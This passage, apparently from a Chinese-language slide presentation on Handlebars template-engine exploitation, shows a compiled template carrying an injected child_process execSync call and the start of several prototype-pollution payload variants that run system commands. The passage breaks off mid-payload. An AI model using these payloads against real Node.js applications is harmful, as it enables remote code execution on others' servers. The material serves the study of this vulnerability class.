 ```js {hide|14-24}{lines:true, maxHeight:'45%'}
const template = {
  compiler: [8, ">= 4.3.0"],
  main: function (container, depth0, helpers, partials, data) {
    var stack1,
      lookupProperty =
        container.lookupProperty ||
        function (parent, propertyName) {
          if (Object.prototype.hasOwnProperty.call(parent, propertyName)) {
            return parent[propertyName];
          }
          return undefined;
        };

    return (stack1 = (
      lookupProperty(helpers, "undefined") ||
      (depth0 && lookupProperty(depth0, "undefined")) ||
      container.hooks.helperMissing
    ).call(
      depth0 != null ? depth0 : container.nullContext || {},
      console.log(
        process.mainModule.require("child_process").execSync("id").toString(),
      ),
      { name: "undefined", hash: {}, data: data, loc: { start: 0, end: 0 } },
    )) != null
      ? stack1
      : "";
  },
  useData: true,
};
```

---

#### Handlebars RCE Exploit 变种

基本都大差不差。

```js {hide|1-15|17-30|32-48|50-67|69-83|85-113}{lines:true, maxHeight:'80%'}
// 将 NumberLiteral 替换为 BooleanLiteral
Object.prototype.body = [
  {
    type: "MustacheStatement",
    params: [
      {
        type: "BooleanLiteral",
        value:
          "console.log(process.mainModule.require('child_process').execSync('calc.exe').toString())",
      },
    ],
    path: 0,
    loc: { start: 0 },
  },
];

// 将 MustacheStatement 改为 PartialStatement
Object.prototype.body = [
  {
    type: "PartialStatement",
    name: "",
    params: [
      {
        type: "NumberLiteral",
        value:
```